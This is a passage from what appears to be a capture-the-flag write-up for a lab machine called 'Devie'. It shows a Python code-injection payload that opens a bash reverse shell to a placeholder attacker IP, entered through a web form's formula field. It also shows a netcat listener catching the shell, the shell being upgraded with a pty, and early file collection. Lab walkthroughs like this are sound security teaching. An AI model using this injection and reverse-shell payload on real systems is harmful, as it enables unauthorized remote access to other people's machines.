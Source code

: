 # Initial Access: Content Injection
I was able to inject the following reverse shell into the "Bisection Method" formula:
```bash
__import__('os').system("bash -c 'bash -i >& /dev/tcp/< ATTACKER IP >/9001 0>&1'")
```
<a href="assets\images\devie-bisect-inject.png"><img src="assets\images\devie-bisect-inject.png"></a>

After starting a Netcat listener on my local machine, I clicked submit on the web page to execute the reverse shell:
```bash
┌──(kali㉿kali)-[~/devie/math]
└─$ nc -lvnp 9001                                                                                                                                                
listening on [any] 9001 ...
connect to [10.6.102.253] from (UNKNOWN) [10.10.249.249] 37548
bash: cannot set terminal process group (680): Inappropriate ioctl for device
bash: no job control in this shell
bruce@devie:~$
```
Next, I upgraded my shell:
```bash
bruce@devie:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
bruce@devie:~$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/devie/math]
└─$ stty raw -echo && fg    
[1]  + continued  nc -lvnp 9001

bruce@devie:~$ 
```
# Collection: Data from Local System
Next, I set about collecting any interesting information I could. In the bruce's home directory I found the following:
```bash
bruce@devie:~$ ls -la
total 44
drwxr-xr-x 4 bruce bruce 4096 Feb 20  2023 .
drwxr-xr-x 4 root  root  4096 May 12  2022 ..
```